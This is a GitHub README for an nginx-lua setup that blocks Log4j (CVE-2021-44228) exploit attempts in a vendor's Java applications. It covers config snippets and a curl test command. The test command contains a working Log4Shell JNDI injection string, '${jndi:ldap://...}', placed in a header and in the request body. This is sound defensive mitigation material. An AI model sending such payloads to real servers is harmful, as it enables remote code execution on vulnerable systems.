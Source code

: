 
# nginx-lua
This repository contains the configuration for the mitigation of Log4j vulnerabilities in the JAVA applications. Nginx, with the help of lua module, will prevent the attacker to access vulnerable JAVA application


## Description
This implementation will provide a quick fix for the vulnerability [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). Expertflow latest release is not vulnerable to this vulnerability and we recommend you to update to the latest release. However, this is also one way to mitigate the risk of remote code execution with the help of Nginx + lua module. After this implementation, each request will be inspected by Nginx and if the request has exploit to remotely execute the code in either its header or in the body, the request will be dropped and won't make its way to the internal Expertflow application. 


## Requirements
1. Expertflow has built Debian-based Nginx image with lua module build-in. Just pull the docker image of nginx from the Expertflow Dockerhub registry.
2. Update the `nginx.conf` file
3. Clone and mount the `nginx-lua.conf` `lua.conf`, and `cve_2021_44228.lua` files to your nginx container.




## Implementation Steps
1. Clone and copy the `nginx-lua.conf`, `lua.conf`, and `cve_2021_44228.lua` ,  in the `/path/to/release/docker/nginx/`
2. Update the `/path/to/release/docker/nginx/https-singleton.conf` file. Add the following code in `https-singleton.conf`
```
############## lua conf################
    set $captured_request_headers "";
    set $captured_request_body "";
    set $cve_2021_44228_log "";
    rewrite_by_lua_block {
        cve_2021_44228.block_cve_2021_44228()

 }
###########################################
````
3. Now we need to update the `/path/to/release/active/docker-compose-service-gateway.yml` file. 
- Update the `image:` entry with the `expertflow/nginx-lua:debian-1.21.4`
- Navigate to the `volume:` section and mount these files to docker container by adding the following code:
```
    volumes:
      - /path/to/release/docker/nginx/https-singleton.conf:/etc/nginx/conf.d/https.conf
      - /path/to/release/docker/nginx/nginx-lua.conf:/etc/nginx/nginx.conf
      - /path/to/release/docker/nginx/cve_2021_44228.lua:/usr/local/lib/lua/cve_2021_44228.lua
      - /path/to/release/docker/nginx/lua.conf:/etc/nginx/conf.d/lua.conf
```
4. Now just remove the nginx container and start it again. 

### Testing
We can now test our implementation whether it's blocking the exploit in the request or not. To test it, send the following request with the exploit present in the header and body with `curl`. Just replace the string `<FQDN>` with your FQDN.
```
curl --location --request POST 'https://<FQDN>/ccm/360notifications' \
--header 'efheader: ${jndi:ldap://8.8.4.4:1111/RCE/Command}' \
--header 'Content-Type: application/json' \
--data '{
    "messages": [{
        "from": "333",
        "contacts": "Jon Doe",
        "text": {
            "body": "${jndi:ldap://8.8.4.4:1111/RCE/Command}"
        }
    }]
}'
```
This will show you the following response which indicates that the configurations are working in perfect manner.
```
 Expertflow Log4J Forbidden
```
